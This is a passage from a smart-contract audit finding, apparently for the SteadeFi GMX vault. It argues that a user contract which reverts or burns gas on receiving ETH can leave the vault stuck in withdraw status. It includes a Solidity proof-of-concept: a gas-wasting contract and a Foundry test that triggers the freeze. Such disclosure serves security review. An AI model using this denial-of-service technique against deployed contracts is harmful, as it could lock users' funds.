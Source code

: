   > if this was targeted by a user to specifically freeze the contract, he can just revert when the contract send him eth.

- I don't know exactly how the keepers will behave in this situation.. but the only action allowed is to call `processWithdraw` again since the status is `withdraw` and in this case even if the keeper have a mechanism to detect this. he only able to call `processWithdraw` again .This doesn't resolve the issue.because calling it again will revert for the same reason (the user revert) each time the keeper calls it.

## Poc

- in the same test contract for withdraw [here](https://github.com/Cyfrin/2023-10-SteadeFi/blob/main/test/gmx/local/GMXWithdrawTest.t.sol) create a simple wasteGas contract :

```solidity
    contract wasteGas {

  receive() payable external {
    uint startingGas = gasleft();
    while ( startingGas- gasleft() < 2000000) {
      1 +1;
    }
  }
}
```

- then add this function to the `GMXWithdrawTest` contract :

```solidity
    function test_POC() public {
    wasteGas mal =  new wasteGas();
    deal(address(WETH), address(mal), 10 ether);
    vm.startPrank(address(mal));
    IERC20(WETH).approve(address(vault), type(uint256).max);

    vm.deal(address(mal),1000 ether);

    _createAndExecuteDeposit(
      address(WETH),
      address(USDC),
      address(WETH),
      1e18,
      0,
      SLIPPAGE,
      EXECUTION_FEE
    );
    _createWithdrawal(address(WETH), 250e18, 0, SLIPPAGE, EXECUTION_FEE);
    // process withdrawal
    mockExchangeRouter.executeWithdrawal(
      address(WETH),
      address(USDC),
      address(vault),
      address(callback)
    );
    assertEq(uint256(vault.store().status),3);// 3 aka withdraw status .

  }
```
